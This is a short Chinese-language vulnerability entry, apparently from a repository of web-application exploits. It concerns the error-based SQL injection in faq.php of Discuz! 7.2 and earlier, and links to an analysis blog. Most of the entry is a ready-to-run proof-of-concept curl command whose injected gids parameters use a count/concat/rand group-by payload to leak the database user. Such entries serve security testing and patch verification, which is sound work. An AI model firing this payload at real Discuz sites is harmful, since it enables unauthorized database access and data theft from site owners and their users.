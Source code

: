 ## discuz v7.2 

### faq.php 报错注入

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```
